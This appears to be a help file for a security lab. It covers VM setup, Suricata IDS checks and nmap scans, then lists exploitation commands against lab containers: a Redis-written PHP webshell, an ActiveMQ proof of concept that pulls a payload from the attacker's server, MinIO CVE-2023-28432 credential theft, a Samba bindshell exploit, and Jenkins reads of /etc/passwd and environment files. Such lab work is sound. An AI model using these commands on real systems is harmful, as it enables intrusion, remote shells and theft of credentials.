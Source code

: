# Help


## Yandex Cloud

### Create VM
```bash
yc compute instance create \
  --name warfare-vm \
  --public-ip \
  --zone ru-central1-a \
  --hostname warfare-vm \
  --cores 2 \
  --memory 2GB \
  --create-boot-disk image-id=fd84n8eontaojc77hp0u,size=40GB,image-folder-id=standard-images \
  --ssh-key ~/.ssh/id_rsa.pub \
  --core-fraction 50
```

## General

### Resize vagrant disk
```bash
df -h
lsblk
sudo pvresize /dev/sda3
sudo lvextend -l +100%FREE /dev/mapper/ubuntu--vg-ubuntu--lv
sudo resize2fs /dev/mapper/ubuntu--vg-ubuntu--lv
sudo cfdisk /dev/sda
```

### Check iptables:
```bash
sudo iptables -L DOCKER-USER -nv --line-numbers
```

### Check Suricata logs:
```bash
journalctl -u suricata.service -b
sudo tail -n 200 /var/log/suricata/suricata.log
sudo tail -n 0 -f /var/log/suricata/fast.log
sudo tail -n 0 -f /var/log/suricata/eve.json | jq .
```

### Run Suricata:
```bash
sudo suricata -c /etc/suricata/suricata.yaml -q 0
```

### Run NMAP scan:
```bash
nmap -sS victim     # SYN scan
nmap -sX victim     # Xmas scan
nmap -sU victim     # UDP scan
nmap -O victim      # OS detection
```

## Vulnerabilities

### 1. ActiveMQ
```bash
nmap -sV -p 61616,8161 172.20.0.101
curl -I http://172.20.0.101:8161/
cd /opt
python3 -m http.server 8888
python3 poc.py -i 172.20.0.101 -p 61616 -u http://172.20.0.10:8888/poc.xml
```

### 2. Redis Unauthorized Access + Command Execution
```bash
nmap -sV -p 6379 172.20.0.102
redis-cli -h 172.20.0.102 ping
redis-cli -h 172.20.0.102
>>> info server
>>> config get "*"
>>> keys *
>>> dbsize
>>> config set dir /tmp
>>> config set dbfilename webshell.php
>>> set test "<?php system($_GET['cmd']); ?>"
>>> save
```

### 3. Minio
```bash
nmap -sV -p 9000,9001 172.20.0.103
curl -I http://172.20.0.103:9000/
curl -I http://172.20.0.103:9001/
curl -X POST http://172.20.0.103:9000/minio/bootstrap/v1/verify \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -d "" | jq '.MinioEnv.MINIO_ROOT_USER, .MinioEnv.MINIO_ROOT_PASSWORD'
```

Then we can use the AWS CLI to exploit the vulnerability
```bash
aws configure set aws_access_key_id minioadmin
aws configure set aws_secret_access_key minioadmin-vulhub
aws configure set region us-east-1
aws --endpoint-url http://172.20.0.103:9000 s3 mb s3://cve-2023-28432-pwned make_bucket: cve-2023-28432-pwned
echo "MinIO Cluster compromised via CVE-2023-28432!" > cve_exploit_proof.txt
echo "Stolen credentials: minioadmin:minioadmin-vulhub" >> cve_exploit_proof.txt
aws --endpoint-url http://172.20.0.103:9000 s3 cp cve_exploit_proof.txt s3://cve-2023-28432-pwned/
aws --endpoint-url http://172.20.0.103:9000 s3 ls s3://cve-2023-28432-pwned/
```

### 4. Samba
```bash
smbclient -L //172.20.0.104/ -N
cd /opt
./exploit.py -t 172.20.0.104 \
  -e libbindshell-samba.so \
  -s myshare \
  -r /home/share/libbindshell-samba.so \
  -u guest -p guest \
  -P 6699
```

### 5. Jenkins
```bash
curl -I http://172.20.0.105:8080/
cd /tmp
wget http://172.20.0.105:8080/jnlpJars/jenkins-cli.jar
file jenkins-cli.jar
java -jar jenkins-cli.jar -s http://172.20.0.105:8080/ -http help "@/proc/self/environ"
java -jar jenkins-cli.jar -s http://172.20.0.105:8080/ -http connect-node "@/etc/passwd"
```